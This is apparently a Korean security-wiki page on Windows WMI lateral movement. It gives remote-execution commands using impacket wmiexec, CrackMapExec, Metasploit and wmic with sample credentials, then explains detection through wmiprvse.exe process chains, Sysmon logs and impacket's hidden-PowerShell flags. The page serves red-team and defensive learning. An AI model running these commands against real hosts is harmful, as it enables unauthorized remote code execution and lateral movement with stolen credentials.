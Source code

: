 # WMI

WMI (Windows Management Instrumentation)은 1996년 개발된 윈도우 드라이버 모델이다. 주 목적은 다양한 관리 어플리케이션들의 데이터 공유를 위한 인터페이스를 제공하는 것이였다.&#x20;

보안적인 측면에서, 그리고 최근에는 원격 시스템의 코드 실행 및 프로세스 실행을 위해서 많이 쓰인다. 원격 시스템에 처음 접근 할 때는 포트 135를 사용하지만 그 이후에는 높은 번호의 ephemeral 포트가 사용된다.&#x20;

### 전제 조건&#x20;

* 타겟 호스트의 로컬 관리자 권한을 갖고 있는 계정/비밀번호/NTLM해시&#x20;
* 타겟 호스트의 포트 135 접근 가능 여부&#x20;

### 공격&#x20;

{% tabs %}
{% tab title="리눅스" %}
impacket이나 Metasploit등을 이용한다&#x20;

```
# impacket 
impacket-wmiexec '<domain>/<user>:<pass>@<FQDN/IP> -shell-type powershell 
impacket-wmiexec 'pci.choi.local/low:Password123!'@192.168.40.161 -shell-type powershell

# Metasploit 
use auxiliary/scanner/smb/impacket/wmiexec

# CrackMapexec 
cme smb <target> -u <user> -p <pass> -d <domain> --exec-method wmiexec -X whoami
cme smb 192.168.40.150 -u Administrator -p 'Password123!' --exec-method wmiexec -X whoami
```
{% endtab %}

{% tab title="윈도우" %}
따로 툴을 이용할 필요 없이 윈도우에서 제공하는 `wmic.exe` 을 이용한다.&#x20;

```
WMIC.exe /node:<ip> /user:<user> process call create "<process>"

WMIC.exe /node:192.168.40.160 /user:Administrator process call create "notepad.exe"
```
{% endtab %}
{% endtabs %}



### 대응 방안&#x20;

공격자가 사용하는 툴 마다 WMI의 적용방법이 다르지만, 공통적으로 나타나는 현상에 집중한다. 윈도우 호스트에서 직접 `wmic.exe` 프로세스를 이용하건, 리눅스에서 impacket을 이용해 wmiexec.py를 이용하건, 공통적으로 WMI를 이용하는 툴들은 모두 `WmiPrvSE.exe` 라는 프로세스에서 시작된다.&#x20;

![WmiPrvSe.exe에서 시작된 cmd.exe와 powershell.exe 프로세스 체인](<../.gitbook/assets/image (1) (1).png>)

`eventvwr.exe` 를 실행 한 뒤 시스몬 로그들을 확인해보면 공격자가 WMI로 접근을 한 뒤, 첫 명령어를 치자마자 시스몬 아이디 1 - Process Create가 로그된 것을 볼 수 있다.&#x20;

![](../.gitbook/assets/wmi.png)

눈여겨 볼 것은 부모 프로세스로 `wmiprvse.exe` 프로세스가 실행됐다는 것, 그리고 커맨드라인이 심상치 않다는 점이다. base64를 디코딩 해보면&#x20;

```
$ProgressPreference="SilentlyContinue";whoami
```

가 나온다. 앞의 플래그들 또한 `-NoP (노 프로필), -noL (노 로고), -sta (싱글 쓰레드 아파트먼트), -NonI (노 인터렉티브), -W (윈도우 - Hidden)` 등의 악성코드가 자주 사용하는 플래그들이 보인다.&#x20;

따라서 WMI 횡적이동을 탐지하고 대응하기 위해선 다음과 같은 로직들이 필요하다.&#x20;

1. 포트 135 접근 이후 ephemeral 포트로 접근하며&#x20;
2. 타겟 호스트의 로컬 관리자 권한이 있는 유저가&#x20;
3. 부모 프로세스는 `wmiprvse.exe`, 자식 프로세스는 `cmd.exe` 혹은 `powershell.exe` 을 생성하며
4. 최종 실행되는 커맨드라인에 수상한 플래그들이 들어가 있을 경우&#x20;

### 대응 방안 - 주의점&#x20;

WMI 또한 툴 마다 구현이 다르기 때문에 특정 플래그를 하드코딩해 탐지/대응 하는 것은 옳지 않다. 예를 들어 위 로그의 최종 커맨드 라인인 `cmd.exe /Q /c powershell.exe -NoP -NoL -sta -NonI -W Hidden -Exec Bypass -Enc` 은 impacket에 [하드코딩 된 플래그](https://github.com/SecureAuthCorp/impacket/blob/master/examples/wmiexec.py#L127-L129)들이다.&#x20;

```
self.__shell = 'cmd.exe /Q /c '
self.__shell_type = shell_type
self.__pwsh = 'powershell.exe -NoP -NoL -sta -NonI -W Hidden -Exec Bypass -Enc '
```

공격자들은 언제나 이런 하드코딩 된 플래그를 바꿀 수 있고, impacket이 아닌 다른 툴들은 다르게 WMI를 구현할 수 있기 때문에 하드코딩 기반의 탐지/대응 방안은 1개의 툴은 막더라도 다른 툴들은 못 막을 수 있으니 이 점을 유의한다.&#x20;

### 레퍼런스

{% embed url="https://www.elastic.co/guide/en/security/current/wmi-incoming-lateral-movement.html" %}

{% embed url="https://riccardoancarani.github.io/2020-05-10-hunting-for-impacket/#wmiexecpy" %}

